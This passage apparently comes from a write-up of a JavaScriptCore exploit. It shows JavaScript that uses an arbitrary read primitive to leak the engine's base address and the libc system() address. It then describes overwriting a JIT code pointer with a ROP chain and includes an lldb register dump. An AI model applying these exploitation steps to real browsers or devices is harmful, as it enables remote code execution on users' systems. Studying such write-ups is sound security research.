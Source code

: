 1. Leaking JSC address base and system() function address
By arbitrary read/write, we can easily leak JSC base address and other system functions:
```
const jscBase = mathExpAddr - JSC_BASE_TO_MATH_EXP;
print("jscBase: " + hex(jscBase));


// reading system_libc
var random_addr = arb_read(jscBase + 0x16110D8n);
print("random_addr: " + hex(random_addr));
var system_addr = random_addr + SYSTEM_RANDOM_GAP;
print("system_addr: " + hex(system_addr));

```

2. Constructing the ROP Chain
Next step, we overwrite the JIT code address with a crafted ROP chain. Before directly jumping to a code address, we realized that we could control the x21 register’s memory, making it a useful target for gadget chaining.

```asm
(lldb) reg r
General Purpose Registers:
       x0 = 0x000000010306c8dc 
       x1 = 0x0000000000000000
       x2 = 0x000000016fdfe5b0
       x3 = 0x000000010d160800
       x4 = 0x000000000000160a
       x5 = 0x000000016fdfe6e0
       x6 = 0x0000000101040990
       x7 = 0x0000000000000001
       x8 = 0x0000000000000000
       x9 = 0x0000000000000020
      x10 = 0x00000000ffffffff
      x11 = 0x0000000000000148
      x12 = 0x0000000103b216aa  JavaScriptCore`JSC::arrayConstructorTableIndex + 52
      x13 = 0x0000000000000000
      x14 = 0x000000000000001b
      x15 = 0x0000000000000001
      x16 = 0x000000019318b16c  libsystem_pthread.dylib`pthread_getspecific
      x17 = 0x00000001039c42f8  JavaScriptCore`jsc_llint_begin + 161528
      x18 = 0x0000000000000000
      x19 = 0x0000000000000000
      x20 = 0x0000000103be8000  JavaScriptCore`g_config
      x21 = 0x000000010108d440 /// JSC’s heap memory 
      x22 = 0x000000010d400050
      x23 = 0x000000010d400000
      x24 = 0x000000010104c408
      x25 = 0x000000010d4401f0
      x26 = 0x000000010d0c1a00
      x27 = 0xfffe000000000000
      x28 = 0xfffe000000000002
       fp = 0x000000016fdfe730
       lr = 0x00000001039c43e4  JavaScriptCore`jsc_llint_begin + 161764
       sp = 0x000000016fdfe6e0
       pc = 0x000000010306c8dc 
      cpsr = 0xa0001000
```
